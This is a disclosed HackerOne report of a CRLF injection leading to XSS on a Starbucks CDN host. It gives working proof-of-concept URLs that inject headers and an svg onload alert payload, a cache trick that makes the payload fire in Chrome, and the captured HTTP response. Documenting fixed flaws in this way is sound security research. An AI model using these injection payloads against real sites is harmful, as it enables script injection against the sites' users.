 # [newscdn.starbucks.com] CRLF Injection, XSS

## Report Details
- **Report ID**: 192749
- **URL**: https://hackerone.com/reports/192749
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2016-12-20T14:36:16.292Z
- **Disclosed**: 2017-03-09T03:31:53.889Z

## Reporter
- **Username**: bobrov
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: starbucks

## Vulnerability Information
**PoC (FireFox)**
```
http://newscdn.starbucks.com/%0d%0aContent-Length:35%0d%0aX-XSS-Protection:0%0d%0a%0d%0a23%0d%0a<svg%20onload=alert(document.domain)>%0d%0a0%0d%0a/%2e%2e
```


After sending the request through FireFox this query is saved in cache and using a small trick can be made to work it in another browser.


**PoC (Chrome)**
Make sure you send this request after FireFox and previous http response contained the header X-Cache: HIT
```
http://newscdn.starbucks.com/%0d%0aContent-Length:35%0d%0aX-XSS-Protection:0%0d%0a%0d%0a23%0d%0a<svg%20onload=alert(document.domain)>%0d%0a0%0d%0a/%2f%2e%2e
```


**HTTP Response**
```http
HTTP/1.1 200 OK
Date: Tue, 20 Dec 2016 14:34:03 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 22907
Connection: close
X-Frame-Options: SAMEORIGIN
Last-Modified: Tue, 20 Dec 2016 11:50:50 GMT
ETag: "842fe-597b-54415a5c97a80"
Vary: Accept-Encoding
X-UA-Compatible: IE=edge
Server: NetDNA-cache/2.2
Link: <https://news.starbucks.com/
Content-Length:35
X-XSS-Protection:0

23
<svg onload=alert(document.domain)>
0
```

## Attachments
No attachments
